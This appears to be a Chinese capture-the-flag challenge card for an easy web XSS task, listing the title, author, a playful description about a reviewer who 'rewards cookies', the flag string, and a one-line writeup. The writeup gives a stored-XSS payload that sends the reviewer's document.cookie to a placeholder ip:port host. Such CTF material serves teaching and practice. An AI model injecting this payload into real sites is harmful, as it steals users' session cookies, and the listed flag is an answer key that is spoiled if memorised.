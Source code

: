 * **题目名称：** kk园区审核员

* **题目类型：** WEB

* **题目难度：** 容易 

* **出题人：** pANz0e

* **考点：**  

1. xss


* **描述：**  善良的出题人组织了一次kk园区的参观活动，现在收集有意向前往的人员信息，提交后工作人员会第一时间审核哦，审核通过还能得到审核的美味曲奇奖励！~

* **flag：** XSCTF{Y0u_succ3s5ful1y_x55_m3}

* **Writeup：** 随便找个xss地方`<script>new Image().src="http://ip:port/"+document.cookie</script>`，点击提交即可
